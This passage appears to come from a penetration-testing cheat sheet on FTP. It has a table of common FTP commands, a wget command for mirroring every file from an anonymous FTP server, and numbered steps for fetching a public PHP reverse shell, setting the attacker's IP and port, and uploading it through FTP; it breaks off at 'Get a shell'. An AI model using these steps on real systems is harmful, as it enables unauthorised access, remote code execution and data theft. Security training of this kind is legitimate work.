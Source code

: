 Remember, while this command can be part of security testing, it should only be used responsibly and ethically.
### **Common FTP Commands

|Command|Description|Usage|
|---|---|---|
|`lcd`|Change local directory.|`lcd /path/to/directory`|
|`cd`|Change server directory.|`cd /path/to/directory`|
|`ls`|List server directory files.|`ls`|
|`get`|Download file from server.|`get filename.txt`|
|`mget`|Download multiple files.|`mget *.txt`|
|`put`|Upload file to server.|`put filename.txt`|
|`mput`|Upload multiple files.|`mput *.txt`|
|`bin`|Set binary transfer mode.|`bin`|
|`ascii`|Set ASCII transfer mode.|`ascii`|
|`quit`|Exit FTP client.|`quit`|

### __*Download All Files

You can download all files hosted on the FTP service with the following command:

```
wget -m ftp://anonymous:anonymous@X.X.X.X
```

### **Reverse Shell over Website

If the target allows users to access the FTP directory over the web and the web server can run PHP files, you can install the exploit for the reverse shell and gain access.

1. Download the payload

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
```

2. Edit some variables in shell.php

```
$ip = '<your-local-ip>';$port = 1234;
```

3. Connect to the FTP server and upload the payload.

```
ftp <target-ip># Upload the payload you downloadedftp> put shell.php
```

4. Get a shell
